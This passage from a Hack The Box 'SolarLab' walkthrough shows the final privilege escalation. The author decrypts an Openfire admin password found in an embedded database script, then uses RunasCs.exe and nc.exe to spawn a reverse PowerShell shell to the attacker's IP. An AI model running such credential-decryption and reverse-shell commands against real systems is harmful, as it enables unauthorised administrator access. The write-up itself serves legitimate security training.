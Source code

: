 Inside **embedded-db**, there's **openfire.script**, and it contains encrypted password along with the decryption key.

Below is the part where it contains the encrypted password:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-32.png)

Below shows the part with decryption key:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-33.png)



### Openfire Password Decrypt
Using [Openfire_decrypt](https://github.com/c0rdis/openfire_decrypt), we can easily decrypt the password using the password key:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/s1.png)


Password is cracked to be **ThisPasswordShouldDo!@**.

Again, using **RunasCs.exe**, we can run commands as the administrator:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-34.png)

Similarly, reverse shell can be spawned as the administrator:

`./RunasCs.exe administrator ThisPasswordShouldDo!@ "C:\tmp\nc.exe 10.10.14.13 1339 -e powershell"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-35.png)

## References
- https://github.com/antonioCoco/RunasCs/releases
- https://github.com/c0rdis/openfire_decrypt
- https://github.com/c53elyas/CVE-2023-33733/tree/master
- https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897